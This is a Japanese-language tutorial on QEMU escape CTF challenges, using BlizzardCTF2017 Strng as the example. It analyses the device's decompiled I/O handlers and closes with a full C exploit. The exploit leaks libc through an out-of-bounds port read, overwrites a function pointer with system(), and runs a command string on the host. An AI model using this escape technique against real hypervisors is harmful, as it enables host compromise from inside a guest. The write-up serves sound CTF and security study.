


# QEMU 脱出入門

QEMU 脱出は、本質的にはユーザー空間の Pwn 問題とあまり違いがなく、提示のされ方が少し異なるだけです。問題自体は通常、QEMU のエミュレートデバイスの形で提示され、そのデバイスは何らかの機能を実装し、ユーザーが操作できる MMIO/PMIO インターフェースを提供します。参加者は通常、これらのインターフェースとやり取りするプログラムを書き、リモートホストに送って実行することで攻略を完成させます(カーネル Pwn に似ています)。

以下では、例題を通じて QEMU Pwn 問題の基本的な解き方を見ていきます。

## 例題:BlizzardCTF2017 - Strng

> 注:問題の環境は [Github](https://github.com/rcvalle/blizzardctf2017/releases) からダウンロードできます。ログインのユーザー名は `ubuntu`、パスワードは `passw0rd` です。

### 問題の分析

まず起動スクリプトを見ると、`-device strng` パラメータによって、独自のデバイス `strng` がロードされていることがわかります。

```bash
./qemu-system-x86_64 \
    -m 1G \
    -device strng \
    -hda my-disk.img \
    -hdb my-seed.img \
    -nographic \
    -L pc-bios/ \
    -enable-kvm \
    -device e1000,netdev=net0 \
    -netdev user,id=net0,hostfwd=tcp::5555-:22
```

QEMU をそのまま IDA に入れて分析します。まず文字列ウィンドウから `"strng"` を探し、そのデバイスの初期化関数を見つけます。



このデバイスが MMIO と PMIO の機能インターフェースをそれぞれ登録しており、いくつかの位置に関数ポインタを置いていることがわかります。

```c
void __fastcall strng_instance_init(Object_0 *obj)
{
  Object_0 *v1; // rax

  v1 = object_dynamic_cast_assert(obj, "strng", "/home/rcvalle/qemu/hw/misc/strng.c", 145, "strng_instance_init");
  *(_QWORD *)&v1[76].ref = &srand;
  v1[76].parent = (Object_0 *)&rand;
  v1[77].class = (ObjectClass_0 *)&rand_r;
}

void __fastcall pci_strng_realize(PCIDevice_0 *pdev, Error_0 **errp)
{
  memory_region_init_io(
    (MemoryRegion_0 *)&pdev[1],
    &pdev->qdev.parent_obj,
    &strng_mmio_ops,
    pdev,
    "strng-mmio",
    0x100uLL);
  pci_register_bar(pdev, 0, 0, (MemoryRegion_0 *)&pdev[1]);
  memory_region_init_io(
    (MemoryRegion_0 *)&pdev[1].io_regions[0].size,
    &pdev->qdev.parent_obj,
    &strng_pmio_ops,
    pdev,
    "strng-pmio",
    8uLL);
  pci_register_bar(pdev, 1, 1u, (MemoryRegion_0 *)&pdev[1].io_regions[0].size);
}
```

IDA の逆コンパイル結果では関数ポインタを置く位置が少しわかりにくいので、ここでは直接アセンブリを見ます。

```ida
.text:000000000041033E                 call    object_dynamic_cast_assert
.text:0000000000410343 strng = rax                             ; STRNGState *
.text:0000000000410343                 mov     rdx, cs:srand_ptr_0
.text:000000000041034A                 mov     [strng+0BF8h], rdx
.text:0000000000410351                 mov     rdx, cs:rand_ptr_0
.text:0000000000410358                 mov     [strng+0C00h], rdx
.text:000000000041035F                 mov     rdx, cs:rand_r_ptr
.text:0000000000410366                 mov     [strng+0C08h], rdx
```

次に、関数テーブルの対応する関数にジャンプして分析します。`(u32*)opaque[701]` の位置に `unsigned int` 配列があり(ここでは `opaque->buf` と定義します)、MMIO の read は主に `opaque->buf[(addr >> 2)]` 上の 4 バイトを単純に読み取るものです。一見すると境界外読み取りができそうですが、**QEMU 内部で MR のアクセス範囲(addr)が定義されたメモリ範囲を超えていないかがチェックされるため、実際には境界外読み取りはできません**。

> `opaque` 引数は、実際にはデバイスのロード時に動的に確保される `PCIDevice` クラスの、独自のサブクラスです。

```c
uint64_t __fastcall strng_mmio_read(void *opaque, hwaddr addr, unsigned int size)
{
  uint64_t result; // rax

  result = -1LL;
  if ( size == 4 && (addr & 3) == 0 )
    result = *((unsigned int *)opaque + (addr >> 2) + 701);
  return result;
}
```

MMIO の write 機能は、書き込むアドレスに応じて異なる機能を提供します(少し込み入っています)。

- アドレスが `0`:`(u64*)opaque[383]` のデータを関数ポインタとして呼び出す。引数は渡された値
- アドレスが `1 << 2`:`(u64*)opaque[384]` のデータを関数ポインタとして呼び出し、結果を `opaque->buf[3]` に書き込む
- アドレスが `その他の値 << 2`:`opaque->buf[(addr>>2)]` に渡された値を書き込む
  - アドレスが `3 << 2` の場合は、その前に `(u64*)opaque[385]` のデータを関数ポインタとして呼び出す。引数は `&((char*)opaque[2812])` で、さらに `opaque->buf[3]` に渡された値を書き込む

```c
void __fastcall strng_mmio_write(void *opaque, hwaddr addr, uint64_t val, unsigned int size)
{
  hwaddr v4; // rsi
  int v5; // eax
  int vala; // [rsp+8h] [rbp-30h]

  if ( size == 4 && (addr & 3) == 0 )
  {
    v4 = addr >> 2;
    if ( (_DWORD)v4 == 1 )
    {
      *((_DWORD *)opaque + 702) = (*((__int64 (__fastcall **)(void *, hwaddr, uint64_t))opaque + 384))(opaque, v4, val);
    }
    else if ( (_DWORD)v4 )
    {
      if ( (_DWORD)v4 == 3 )
      {
        vala = val;
        v5 = (*((__int64 (__fastcall **)(char *))opaque + 385))((char *)opaque + 2812);
        LODWORD(val) = vala;
        *((_DWORD *)opaque + 704) = v5;
      }
      *((_DWORD *)opaque + (unsigned int)v4 + 701) = val;
    }
    else
    {
      (*((void (__fastcall **)(_QWORD))opaque + 383))((unsigned int)val);
    }
  }
}
```

PMIO の read 機能はデータの読み取りを行います。

- `addr == 0` の場合は、`(unsigned int *)opaque[700]` の値を返す。
- `addr == 4` の場合は、`(unsigned int *)opaque[700]` の値 `v4` を取得し、下位 2 ビットが 0 なら `opaque->buf[(v4 >> 2)]` 上のデータを返す。

`(unsigned int *)opaque[700]` の値を制御できれば、そのまま境界外読み取りを実現できます。

```c
uint64_t __fastcall strng_pmio_read(void *opaque, hwaddr addr, unsigned int size)
{
  uint64_t result; // rax
  unsigned int v4; // edx

  result = -1LL;
  if ( size == 4 )
  {
    if ( addr )
    {
      if ( addr == 4 )
      {
        v4 = *((_DWORD *)opaque + 700);
        if ( (v4 & 3) == 0 )
          result = *((unsigned int *)opaque + (v4 >> 2) + 701);
      }
    }
    else
    {
      result = *((unsigned int *)opaque + 700);
    }
  }
  return result;
}
```

PMIO の write 機能の定義は次のとおりです。

- `addr == 0` の場合は、渡された値を `(unsigned int *)opaque[700]` に書き込む。したがって PMIO read と組み合わせれば境界外読み取りを実現できる。
- `addr == 4` の場合は、`(unsigned int *)opaque[700]` の値 `v4` を取得し、下位 2 ビットが 0 なら `v5 = v4 >>2` とする。
  - `v5 == 1` の場合は、`(u64*)opaque[384]` の関数ポインタを呼び出し、戻り値を `opaque->buf[1]` に書き込む。引数はコードを参照
  - `v5 == 3` の場合は、`(u64*)opaque[385]` の関数ポインタを呼び出し、戻り値を `opaque->buf[3]` に書き込む。引数はコードを参照
  - `v5 != 0` の場合は、渡された値を `opaque->buf[v5]` に書き込む
  - `v5 == 1` の場合は、`(u64*)opaque[383]` の関数ポインタを呼び出す。引数は渡した値

```c
void __fastcall strng_pmio_write(void *opaque, hwaddr addr, uint64_t val, unsigned int size)
{
  unsigned int v4; // eax
  __int64 v5; // rax

  if ( size == 4 )
  {
    if ( addr )
    {
      if ( addr == 4 )
      {
        v4 = *((_DWORD *)opaque + 700);
        if ( (v4 & 3) == 0 )
        {
          v5 = v4 >> 2;
          if ( (_DWORD)v5 == 1 )
          {
            *((_DWORD *)opaque + 702) = (*((__int64 (__fastcall **)(void *, __int64, uint64_t))opaque + 384))(
                                          opaque,
                                          4LL,
                                          val);
          }
          else if ( (_DWORD)v5 )
          {
            if ( (_DWORD)v5 == 3 )
              *((_DWORD *)opaque + 704) = (*((__int64 (__fastcall **)(char *, __int64, uint64_t))opaque + 385))(
                                            (char *)opaque + 2812,
                                            4LL,
                                            val);
            else
              *((_DWORD *)opaque + v5 + 701) = val;
          }
          else
          {
            (*((void (__fastcall **)(_QWORD))opaque + 383))((unsigned int)val);
          }
        }
      }
    }
    else
    {
      *((_DWORD *)opaque + 700) = val;
    }
  }
}
```

### 脆弱性の利用

PMIO read 機能の読み取りアドレスは `(unsigned int *)opaque[700]` で決まり、この値は PMIO write の `addr == 0` 側から変更できます。問題は最初から `opaque` の後ろのほうにいくつかの関数ポインタを置いているため、これらの関数ポインタを読み取って libc のベースアドレスをリークできます。

同様に、`addr == 4` のとき、PMIO write は指定したアドレス + オフセットの位置にデータを書き込み、そのオフセット値は制御可能な `(unsigned int *)opaque[700]` です。そのため `opaque` 上の関数ポインタを非常に簡単にハイジャックできます。これらの関数ポインタは MMIO write と PMIO write で呼び出しを起こせるので、関数ポインタをハイジャックして制御フローハイジャックを実現できると容易に考えられます。

`(unsigned int *)opaque[700] == 3` のとき、関数ポインタの呼び出しでは `opaque` 上のアドレスが第 1 引数として渡されます。その位置のデータも制御可能なので、まずそこに文字列を書き込み、関数ポインタを `system()` にハイジャックしてから呼び出せば、Host 上で任意のコマンド実行を実現できます。

### やり取りの方法

QEMU pwn の問題では、local の Linux 環境が与えられ、通常は root 権限があります(入れ子型の問題で、先に権限昇格を要求されるものを除く)。通常は C で exp を書き、静的ビルドしてからリモートに転送して実行します。問題によってはローカルのビルド環境も提供されるため(この問題がそうです)、その場合は exp のソースコードをリモートに転送してからビルドして実行するだけで済みます。

まず、問題とやり取りする方法を説明します。QEMU pwn の脆弱性は通常、独自の PCI デバイスに存在します。`lspci` コマンドで既存の PCI デバイスを確認でき、各デバイスの先頭に `xx:yy.z` のような 16 進数の番号が見えます。この形式は実は `バス番号:デバイス番号.ファンクション番号` で、`lspci -v` で PCI デバイス情報を見ると、バス番号の前の 4 桁の数字が PCI ドメインの番号です。

通常、認識されていないデバイスが 1 つ見え、これが問題のデバイスです。ここでは、PMIO のアドレスが `0xc050`、MMIO のアドレス(物理アドレス)が `0xfebf1000` であることがわかります。



PMIO でやり取りする場合は、まず `iopl(3)` でアクセス権を取得し、その後は `in()` や `out()` 系の関数でポートを読み書きするだけです。**ポートアドレスは読み書きの長さにアラインする**必要がある点に注意してください(たとえば 4 バイトの読み書きならポートアドレスは 4 にアラインします)。例を示します。

```c
void pmio_write(uint32_t port, uint32_t val)
{
    outl(val, port);
}

uint32_t pmio_read(uint32_t port)
{
    return inl(port);
}

int main(int argc, char **argv, char **envp)
{
    uint32_t  pmio_port = 0xc050;
    uint32_t  val;
    //...
    
    if (iopl(3) < 0) {
        errExit("failed to change i/o privilege! no root?");
    }

    /* これは単なる例です */
    val = pmio_read(pmio_port);
    pmio_write(pmio_port + 4, 0xdeadbeef)
```

MMIO でのやり取りは少し面倒です。MMIO は本質的に対応する物理アドレスを直接読み書きするものですが、sysfs 配下のリソースファイルを `mmap()` でマップすれば、メモリアクセスを実現できます。この問題を例にすると、`lspci` コマンドで得られる番号は `00:03.0` なので、`/sys/devices/pci0000:00/0000:00:03.0/resource0` ファイルを `mmap()` でマップすれば、そのまま MMIO を実現できます。PMIO と同様に、MMIO の読み書きアドレスも読み書きの長さにアラインする必要があります。例を示します。

```c
void mmio_write(uint32_t *addr, uint32_t val)
{
    *addr = val;
}

uint32_t mmio_read(uint32_t *addr)
{
    return *addr;
}

int main(int argc, char **argv, char **envp)
{
    uint64_t  mmio_addr;
    int   mmio_fd;
    long  val;
    //...
    mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0",
            O_RDWR | O_SYNC);
    if (mmio_fd < 0) {
        errExit("failed to open mmio file! wrong path or no root?");
    }

    mmio_addr = (uint64_t)
            mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_addr == MAP_FAILED) {
        errExit("failed to mmap mmio space!");
    }

    val = mmio_read(mmio_addr);
    mmio_write(mmio_addr + 4, 0xbeefdead);
```

> 注:`/sys/devices/pci0000:00/0000:00:03.0/resource1` ファイルをマップして、メモリの読み書きの形で PMIO を実現することもできます。

完全な exp は次のとおりです。`cat ./flag` の実行と、電卓を起動するコマンドを実行しています。

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <stdint.h>
#include <sys/io.h>

#define STRNG_MMIO_REGS 64
#define STRNG_MMIO_SIZE (STRNG_MMIO_REGS * sizeof(uint32_t))

#define STRNG_PMIO_ADDR 0
#define STRNG_PMIO_DATA 4
#define STRNG_PMIO_REGS STRNG_MMIO_REGS
#define STRNG_PMIO_SIZE 8

char calc_str[0x100] = ";cat ./flag;gnome-calculator";
char sh_str[0x100] = "/bin/sh";

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void mmio_write(uint32_t *addr, uint32_t val)
{
    *addr = val;
}

uint32_t mmio_read(uint32_t *addr)
{
    return *addr;
}

void pmio_write(uint32_t port, uint32_t val)
{
    outl(val, port);
}

uint32_t pmio_read(uint32_t port)
{
    return inl(port);
}

int main(int argc, char **argv, char **envp)
{
    uint64_t    mmio_addr;
    uint32_t    pmio_port = 0xc050;
    int         mmio_fd;
    uint32_t    srand_addr_low, srand_addr_high;
    uint64_t    srand_addr;
    uint64_t    libc_addr;
    uint64_t    system_addr;

    /*
     * initialization
     */
    mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0",
            O_RDWR | O_SYNC);
    if (mmio_fd < 0) {
        errExit("failed to open mmio file! wrong path or no root?");
    }
    
    if (iopl(3) < 0) {
        errExit("failed to change i/o privilege! no root?");
    }

    mmio_addr = (uint64_t)
            mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_addr == MAP_FAILED) {
        errExit("failed to mmap mmio space!");
    }

    /*
     * regs[3] is not writable, because for addr 3 the rand_r() will be called
     * so we fill some useless string there
     */
    for (int i = 0; i < 4; i++)
        mmio_write((uint32_t*)(mmio_addr + ((2 + i) << 2)), (uint32_t*)"aaaa");

    for (int i = 0; i < 10; i++)
        mmio_write((uint32_t*)(mmio_addr + ((6 + i) << 2)), ((uint32_t*)calc_str)[i]);

    /*
     * exploitation
     */
    
    /*
     * Stage.I - leaking libc addr
     * set the strng->addr by pmio_write to a oob val
     * so that we can make an oob read by pmio_read
     */
    puts("[*] Stage.I - leaking libc addr\n");

    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 1) << 2);
    srand_addr_low = pmio_read(pmio_port + STRNG_PMIO_DATA);
    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 2) << 2);
    srand_addr_high = pmio_read(pmio_port + STRNG_PMIO_DATA);

    srand_addr = srand_addr_high;
    srand_addr <<= 32;
    srand_addr += srand_addr_low;
    libc_addr = srand_addr - 0x460a0;
    system_addr = libc_addr + 0x50d60;

    printf("[+] get addr of srand: 0x%llx\n", srand_addr);
    printf("[+] libc addr: 0x%llx\n", libc_addr);
    printf("[+] system addr: 0x%llx\n", system_addr);

    /*
     * Stage.II - overwrite the rand_r ptr
     * set the strng->rand_r to system by oob write in pmio
     */
    puts("\n[*] Stage.II - overwrite the rand_r ptr\n");

    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 5) << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, (uint32_t) system_addr);
    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 6) << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, (uint32_t) (system_addr >> 32));

    puts("[+] write done!");

    /*
     * Stage.III - control flow hijack!
     * call the strng->rand_r by pmio_write and hijack the control flow!
     */
    puts("\n[*] Stage.III - control flow hijack\n");

    puts("[*] trigger the strng->rand_r()...");
    pmio_write(pmio_port + STRNG_PMIO_ADDR, 3 << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, 0xdeadbeef);

}
```

## REFERENCE

[qemu pwn-Blizzard CTF 2017 Strng writeup](https://xz.aliyun.com/t/6618#toc-4)

[【HARDWARE.0x00】PCI 设备简易食用手册](https://arttnba3.cn/2022/08/30/HARDWARE-0X00-PCI_DEVICE/)
